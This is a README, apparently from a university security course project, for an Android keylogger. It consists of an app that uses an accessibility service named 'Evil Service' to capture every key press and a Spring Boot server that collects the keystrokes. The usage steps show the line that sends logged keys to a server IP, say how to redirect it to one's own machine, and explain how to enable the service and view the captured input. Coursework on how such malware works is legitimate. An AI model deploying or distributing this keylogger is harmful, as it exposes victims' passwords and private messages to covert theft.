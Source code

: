 # Android Keylogger

This is a project implemented as Project for the Information Systems Security Course. The main idea is developing a basic key logger for android mobile devices.

## Modules
* keylogapp => Basic Android Java Mobile Application that logs keys
* keylogweb => Spring Boot Web Application that receives logged keys

## How It Works
[Keylogger.png](./diagrams/Keylogger.png)

**Notes:**

## Usage
1. Deploy **keylogweb** application
    * NOTE: your andorid phone must have access to the server that web application running via network or internet etc.
    * You can directly start with following command:
        ```bash
        mvn clean package spring-boot:run
        ```
2. Prepare **keylogapp** for deployment
   1. [Go To KeyLogger.java](https://github.com/maemresen/android-keylogger/blob/main/keylogapp/app/src/main/java/com/maemresen/infsec/keylogapp/KeyLogger.java) 
   2. Find the following line
        ```
        sendLog("http://192.168.1.37:8080/keylog/save", keyLog);
        ```
    3. Replace `192.168.1.37` with the IP of the machine that you deploy `keylogweb` 
3. You should enable **Evil Service** which listens key press and send them to the server
   * after installed the App, you have to open Accessibility settings. (A button named **Evil Service** is added as a shortcut to directly jump accesibility settings.) Then at the bottom of the page, you will see **Evil Service** under Downloaded Services. You should enable Evil Service from there. Then it will works.
4. You can check your browser and you will see that each key-press on your Android phone will be printed to the web-page. **! Hint:** Do not forget to refresh browser manually. Auto-refresh feature not implemented :)
